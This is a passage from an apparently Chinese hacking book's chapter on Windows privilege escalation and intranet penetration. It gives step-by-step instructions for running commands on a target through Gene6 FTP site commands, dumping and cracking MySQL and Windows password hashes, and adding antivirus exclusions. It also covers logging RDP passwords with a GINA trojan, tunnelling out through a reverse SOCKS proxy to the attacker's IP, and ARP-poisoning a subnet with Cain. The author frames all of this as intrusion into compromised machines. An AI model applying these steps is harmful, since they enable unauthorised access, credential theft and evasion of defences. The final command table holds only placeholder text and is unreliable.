接下来就好办了，在本地安装一个 G6FTP，然后在菜单里选择 **“actions”->“new server”**，name 以及 description 都可以随便填，最关键的是 host、username 和 password。这三处要填上对应的主机名、用户名和密码，端口号默认的是 8021，如果目标改了的话，这里也要做相应的改动。一切设置好后的结果如图40，然后单击“OK”，就可以连接到目标 FTP 服务器上了。

当然了，这些都是在本地操作的。现在在出现的 **“domains”->“test”** 下按鼠标右键选择 **“properties”**，也就是属性，如图41。


图41


图40

在出现属性框后，我们需要来到“site commands”这个选项里，单击右边那个“+”，接着在“command”处随便填，这里是所执行命令的名称，如我填的是“ADD”。然后在“execute”处选择我们的批处理文件，作用当然是加系统用户了。

**注意：**这里的批处理是我们传到目标机上的程序，而不是本机上的。另外，除了批处理文件外，我们还可以执行任何程序。

这里我把代码传到了目标机器里的 C 盘根目录下，一切设置好后如图42。接着单击“OK”就可以了，填好后记得要最后保存一下，如图43。


现在所有的设置完毕了，这样我们就可以用命令行进去执行命令了。我们可以执行下命令：`quote site add`，这里的 add 就是刚才设置的执行命令的名称。如果成功的话，会出现如图44的提示。

```text
C:\>ftp 192.168.1.200
Connected to 192.168.1.200.
220 Gene6 FTP Server v3.9.0 (Build 2) ready...
User (192.168.1.200:(none)): administrator
331 Password required for administrator.
Password:
230 User administrator logged in.
ftp> quote site add
200 Command executed.
```


当然了，G6FTP 不会出现类似于 SERV-U 那样的命令，如 `Quote site exec "net user test test /add"`，这样的命令对于 G6FTP 无效。好了，关于 G6FTP 提权的方法就说到这里，大家在不同的系统及环境中也要灵活应用。

## 7.1.14 sniffer 提权

我这里讲的 sniffer 不仅包括通过 C 段嗅得相应的 FTP、MSSQL，抑或是 3389 等重要密码，还包括本机网页形式下的 sniffer。对于基于 C 段内的嗅探，过会儿我在后面的内网渗透里详细讲解，下面还是先来看一下基于 Web 网页形式的嗅探吧。

我使用的一款基于网页嗅探的工具名叫 websniff，界面如图45。

图46

默认的是嗅探 FTP 密码，当然这一项就足够了。点击“start”就可以开始进行嗅探，在等待一段时间后，到相应文件里就可以看到一些信息了，如图46。

本人在测试这个工具的时候，找了好几台肉鸡进行操作都没有成功，老是提示源文件有误。因此，这个东西的适用性还有待提高。关于它的一些说明可以到这里参考：http://hi.baidu.com/linx2008/blog/item/7020f1de1b1c805395ee3768.html

#### 7.1.15 社工提权

每个人的记忆能力都是有限的，并且不是每个人都有很高的安全意识，所以一般来说，每个人的密码也就那么两、三个而已。不能提权的时候，我们可以收集一些邮件、论坛、QQ 等的密码进行组合，然后利用这些密码的字母再做一个字典出来，这样再用工具猜解的时候，效率会提高不少。大家可以试试“N.C.P.H 社会工程学字典”，界面如图47，利用生成的字典再结合第二章提到的工具进行提权。

图47

#### 7.1.16 提权中注意到的细节

提权是一个细心的活，我举个简单的例子。就像我前面提到的用 PHP 提权一样，有时候运气好，可以在 my.ini 里找到 root 的密码；可有时候这个文件是没有 root 密码的，这时候该如何找到 root 密码呢？

常用的方法就是利用一些 PHP 的连接文件来找明文密码。另外，如果在旁注的时候权限不够，不允许我们读这些文件时，我们可以去看看一些软件的安装目录。通常网站管理员对单独的网站目录权限设置得比较严格，而对如 C:\Program Files 这类文件夹的权限就不太严格。但通常这些目录都是一些软件默认安装的目录，如 MYSQL、MSSQL 就装在这个目录。

即使前面提到的海洋木马无权限查看，我们也可以把 mysql/data 目录下的 user.MYD 文件利用 copy 命令复制到 webshell 目录，然后下载到本地，最后用十六进制编辑器打开进行查看，如图48。

图48

图49

从图48中可以很明显地看到 root 用户和加密过的密码，其中 * 是分界线。那么得到加密的密码后如何破解呢？这里要用到工具 cain 了。打开 cain 后选择“cracker”，在左侧这一栏中单击“mysql hashes”，接着在右边空白处单击一下，然后再单击一下“+”这个符号，操作步骤如图49。

图50

这时在弹出的对话框中填入相应的用户名和 HASH，如图50。单击“OK”后我们来选择破解。在 cain 主界面中，选择右边列表中已经加入的需要破解的项目，然后按鼠标右键选择“dictionary attack”->“mysql sha1 hashes”，如图51。

由于 cain 本身就自带了一个比较大的字典，我们使用那个字典就可以了，直接在弹出的对话框中选择“start”就可以开始暴力猜解了。如果密码很简单，不一会儿就会出来结果，如图52，表示成功破解出了密码。

图51

图52

单击“exit”后再回到原来的界面，发现密码已经躺在那里了，如图53。

图53

其实不止 MYSQL 可以这样操作，如 MSSQL、oracle 等都是可行的。另外，cain 的功能不止我们平常提到的 arp 嗅探，它的功能真的很强大。

除了上面提到的外，提权并不一定要自己提上去。什么意思呢？比如我们在目标服务器提权的过程中发现有前辈已经来过了，这时碰碰运气，可以通过查看“回收站”等目录，试试能不能发现那些加用户的批处理或者 VBS 脚本，说不定我们也可以通过它们登录呢！

不同的情况要理智地分析，一些文件的角色以及网站性质、管理员上线的时间点等都是可以利用的信息。好了，这一小部分就到这里吧，下面就是内网渗透啦！

### 7.2 内网渗透

内网渗透是一个谈论了很久的话题，其中攻击的手法随着互联网的发展变得越来越高明。在我看来，当我们获得内网或者 C 段中的一台机器时，登录终端上去后做的第一件事是什么？反正我的……

图54

第一件事就是用任务管理器查看当前有多少用户登录到这台服务器，如图54。这说明当前只有一个 GUEST 用户在线，也就是我了。若你喜欢用命令行模式查看，可以使用命令：`query user`，结果如图55。

如果你发现出现了 administrator 的字样时，注意了哦，这个时候好多朋友会断开连接的。其实不然，我们还要注意 administrator 的状态，仔细看图54和图55，上面显示的 guest 用户为“活动的”，至少绝大部分情况下，使用 guest 用户登录的人正在操纵着这台电脑（也不排除用户登录上去却人走开了的情况）。如果显示的是“断开的”，那么说明 administrator 这个用户其实不在线，因此要视情况而定。

#### 7.2.1 信息收集

这一部分是必不可少的，比如这台机器在内网中是什么身份，是 web 服务器还是 data 服务器，抑或是 time 服务器？管理员经常在哪个时间段上线，是否有域环境，装了什么样的杀软，是否经常打补丁？用的什么样的 FTP 服务，使用这台电脑的“人”是什么身份，是一个普通员工还是一个有着一定管理权限的部门经理等……这些都是很需要收集的。

通常对域结构或者 VLAN 的探测，用到最多的命令为 `net view`，执行后结果如图56。

**注意了**，列出的机器名是指在网络结构中有联系的，并不一定就在同一网段或内网中。我们可以采用命令 `ping` 其机器名的方法来得到具体 IP，以便进一步分析网段的结构，如图57。

除此之外，我们需要了解本机在网络中所扮演的角色，可以执行命令 `ipconfig /all` 查看是否有域环境，如图58。

可惜的是，这里没有相应的域环境。如果有域环境的话，我们可以用命令查看域里的用户，命令为：`net user /domain`，查询出来的结果如图59。

域里面的用户很多，我们看看有哪些是域管理员，执行命令：`net group "domain admins" /domain`，结果如图60。

上面的这些步骤是非常有必要的。另外，我们还需要知道本机中的管理员有哪些，执行命令：`net localgroup administrators`，结果如图61。

注意了，有时候用这个命令也显示不了带 `$` 符号的账号。为了全面地搜集信息，我们可以再到“我的电脑”->“管理”->“本地用户和组”中的“用户”查看一下，结果如图62。

这里很明显地发现了一个用户名为“jay2$”的用户，通过查看信息，很明显它不是本机的，也就是说这台机器有“非法用户”进来过。

### 7.2.2 提取系统 hash

有了以上基本的信息收集以后，接下来是如何继续对其内网进攻。通常在做进攻之前，我会再做一个信息的处理，那就是收集系统 hash。如何提取系统 hash 呢？我经常用到的工具是 `pwdump7.exe`，目前最新版为 7.1。另外还有一些工具，如 fgdump 和 gethashes 等。

这里涉及到一个传文件的问题，小文件我一般都会用“可以复制文件的 3389 连接器”程序直接把本地文件复制到远程计算机上，但这个程序只针对 WIN2003 有效，如图63。

当遇到需要传送的文件体积很大时，如 cain，我建议还是用 shell 或者 FTP 传。将文件传上去之后又遇到另一个问题，那就是杀软。我这台目标机上装的是麦咖啡，文件一传上去就报警了，如图64。

会免杀的人可能就会对其做个免杀的处理，但一些文件做免杀太复杂，或者有些朋友不会做免杀，怎么办？这些在入侵过程中会碰到的问题其实也很好解决，一般杀软都提供了一个排除的功能，也就是我们可以设置杀软对某些目录或者软件不进行扫描。

如我们遇到的这个“麦咖啡”，可以在屏幕右下角它的图标上按鼠标右键，然后选择“按访问扫描属性”，在“所有进程”->“检测项”中的“排除项”中添加排除目录即可，如图65。

这里还有一个小诀窍，就是当你遇到从来没有见过的杀毒软件而不知怎么设置时，可以用 saminside 这款工具来抓 hash。到目前为止我好像还没有见过哪个杀毒软件跟它过不去，而且这个工具的体积也比较小。

用 `pwdump7` 抓 hash 很简单，直接显示 hash 的话我们只需要输入 `pwdump7` 就可以了，如图66。

```bash
pwdump7.exe >a.txt
```

但这样不方便我们进一步提权这些 hash，这时可以使用命令将 hash 导入到文本中去，格式如上。得到 hash 的破解工具除了刚才提到的 saminside 外，还有 lc5 和 rainbowcrack，其中 saminside 和 rainbowcrack 可以结合 120G 的彩虹表来加快破解的进度。

来演示下。

我们需要把刚才抓到的 hash 导入进来，在“file”菜单中选择“import from pwdump file”项，然后选择抓到的 hash 文件，如图67。

那怎么导入彩虹表呢？我这里的彩虹表没有下全，只能演示一下了。在菜单“service”中选择“options”，然后选择“lm-tables”，接着在右边的“ADD”中添加彩虹表文件，如图68。

一切设置好后就可以开始破解了，破解的速度与彩虹表的大小、电脑配置及密码复杂程度有关。

使用 rainbowcrack 这个工具更简单，输入程序名就会出现相应的操作提示，如图69。

还有一款强大的破解 hash 的软件，名称为 ophcrack，速度很快，但可惜的是只有 1G 多的 tables 表是免费的，大家可以到 http://bbs.ctocio.com.cn/thread-7838802-1-1.html 查看关于这款软件的详细使用说明。

另外，大家仔细看图66，其中发现 administrator 的 hash 串出现了“no password”的字样。根据经验判断，说明 administrator 的用户密码超过了 14 位。那么如何应对这种超过了 14 位的密码呢？接下来出场的是记录 3389 的 gina 木马，我使用的这款到目前为止好像没有被杀软查杀过，界面如图70。

使用方法也很简单，一直点 NEXT 就行了，最后生成记录密码的文件。来看看我的战果吧，如图71。

很强悍哦！这些工作都做了以后，下一步我们就可以开始进攻内网了。

#### 7.2.3 进攻内网

现在我们已经得到一些基本信息了，上面做的一切就是要保住这台机器，如果这台机器丢了的话，内网所有的权限就有可能全部丢掉。

一般情况下，内网存在着比较大的弱口令或者直接被溢出的机器，因此我们大可利用第三章的知识来解决。但问题来了，我们如何把这些工具传上去呢？难道一个一个地传？其实不然，这里就需要用到反弹 socks 代理。

大多数情况下，如果有防火墙直接阻止外连的话，我们可以考虑反弹，就像经常用 lcx 反弹 3389 一样。这里要介绍的工具就是 ncph 的 hd，很强大的内网渗透工具。首先在本机执行命令：`hd -s -listen 53 1180`，如图72。

接着在肉鸡上执行命令：`hd -s --connect 119.98.101.189 53`，其中 119.98.101.189 是我本机的 IP，执行后如图73。

接下来 socks 的设置按照如图74中的进行选择即可。接着在 socks 控制台上，把我们想使用的工具都丢到里面，并且这里的操作是可以直接进行鼠标拖曳的，如图75。

这样，通过 socks 就可以把我们置于对方的网络中了。不信？我们用 socks 控制台的 maxthon 打开 www.ip138.com 看看我们的 IP 是多少，如图76。

怎么样？不是刚才我说的本机的 IP 吧。这样，我们就可以很方便地在本地实行对目标内网的渗透了。关于这个 hd 工具，其实功能还是挺多的，大家可以用 `hd -h` 来查看命令解释。另外，cain 自带的 arp 功能是万不得已的情况下才使用的。

Cain 嗅探又是如何做到的呢？打开程序主界面后，在菜单“configure”中先要对其进行必要的配置，其中在“sniffer”标签项中可以选择相应的网卡，如图77。然后再到“filters and ports”选择要嗅探的端口，基本上敏感端口都在里面。

另外，这里的配置中还有一个技巧问题。如果 C 段或者内网中有防 ARP 的软件存在，我们的嗅探会不起作用，这时可以在“APR (arp poison routing)”中进行相应设置，中设置发包速度，用发包速度来使对方的防 ARP 软件失效。cain 默认的发包时间间隔为 30 秒，如图79。

图78

图79

这些配置好后，再来到下面菜单中的“sniffer”，把上面的网卡图标点击下，然后在空白处按鼠标右键选择“scan mac address”，如图80。扫描完以后，再切换到底部菜单中的“ARP”，如图81。

图81

图80

图82

图83

接着在右边上面的空白处单击一下，然后按一下那个“+”，在出现的对话框的左边选择网关，然后在右边选中要欺骗的 IP。如果要全部欺骗，在选择要欺骗的 IP 时，可以按住 ctrl 键，如图82。

选择完毕后单击“OK”就行了。现在一切准备就绪，我们再把刚才提到的像网卡标志按钮旁的那个类似风扇的图标点一下，就开始欺骗了。在等待一段时间后，如图83，这是我在肉鸡上测试的结果。

我们可以选择底部菜单“passwords”进行查看，如果发现相应的 VNC 密码就可以将其选中后发送到 cain 自己破解，如图84，是嗅探到的结果。其实 cain 的功能还是挺多的，只是强大的嗅探功能掩盖了人们对其他功能的关注。

图84

#### 7.2.4 细节问题的处理

在 7.2.3 节中我并没有讲到如何去查找信息，这里往往是看你能否进一步渗透进去。如一些 txt 文档、conn.asp 及 web.config 的文件都是要查找的对象。除此之外，还有一些系统自带邮件发送功能，通常有些管理员的邮件密码也保存在这些页面内。另外，放置一个远程软件和键盘记录也是不错的选择。

总之，内网渗透是一个耐心和细心的活，不要羡慕某某把一个网段的机器都拿下了，如何运用、最大化获得知识才是最重要的。要相信自己，还是前面说过的一句话：没有做不到，只有想不到。

## 渗透测试常用命令速查表

| 命令 | 说明 |
|---|---|
| （表格内容因图像噪声较大，细节不可完全辨识） | （建议结合原始高清图进一步识别） |